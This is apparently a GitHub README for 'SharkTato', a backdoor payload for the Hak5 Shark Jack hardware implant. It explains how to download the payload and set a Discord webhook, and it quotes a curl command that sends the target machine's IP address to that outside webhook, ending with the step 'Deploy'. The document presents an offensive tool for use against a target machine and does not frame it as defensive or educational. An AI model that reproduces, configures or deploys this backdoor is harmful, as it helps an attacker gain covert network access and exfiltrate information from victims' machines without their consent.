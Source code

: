 # SharkTato
> Chris Taylor [Blue Cosmo] | 04/08/22
---

```
  _________.__                  __   ___________       __          
 /   _____/|  |__ _____ _______|  | _\__    ___/____ _/  |_  ____  
 \_____  \ |  |  \\__  \\_  __ \  |/ / |    |  \__  \\   __\/  _ \ 
 /        \|   Y  \/ __ \|  | \/    <  |    |   / __ \|  | (  <_> )
/_______  /|___|  (____  /__|  |__|_ \ |____|  (____  /__|  \____/ 
        \/      \/     \/           \/              \/             
```

## Overview:
SharkTato is a backdoor for the Hak5 [SharkJack](https://shop.hak5.org/products/shark-jack?variant=21284894670961). It uses Discord Webhooks to send us back the IP address of our target machine. Huge shoutout to AndreMtl514 for the support!

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=O37hJrCELpk)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Discord
- SharkJack

## Download:
```bash
svn checkout https://github.com/CosmodiumCS/payloads/trunk/sharkjack/sharktato
```

## Instructions:
1. Change line 24 in `payload.sh` from `DISCORDWEBHOOK` to a discord webhook you generate
```
curl -F "payload_json={\"username\": \"Tremor\", \"content\": \""$ADDRESS"\"}" DISCORDWEBHOOK
```
2. Deploy
